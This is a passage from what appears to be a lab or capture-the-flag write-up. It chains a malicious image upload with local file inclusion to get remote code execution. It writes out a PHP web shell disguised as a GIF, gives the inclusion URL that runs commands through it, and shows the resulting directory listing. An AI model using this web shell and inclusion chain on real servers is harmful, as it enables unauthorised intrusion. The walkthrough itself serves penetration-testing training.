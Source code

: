 There are many ways to bypass this restriction but since we are following the guideline of the module, let's go with the malicious file upload, in this case, I will upload a malicious gif file:

```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > webshell.gif
```

Now, let's upload it:

![Pasted image 20250218153201.png](../../../../IMAGES/Pasted%20image%2020250218153201.png)

If we check the source code, we can see the path where images are uploaded:

![Pasted image 20250218153225.png](../../../../IMAGES/Pasted%20image%2020250218153225.png)

So, we need to visit:

```
http://IP:PORT/index.php?language=./profile_images/webshell.gif&cmd=id
```

And we'll see the following:

![Pasted image 20250218153601.png](../../../../IMAGES/Pasted%20image%2020250218153601.png)

We got RCE, let's search around for the flag:

```
ls+/

82f40d853e2d4768d87da1c81772bae0a.txt
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
```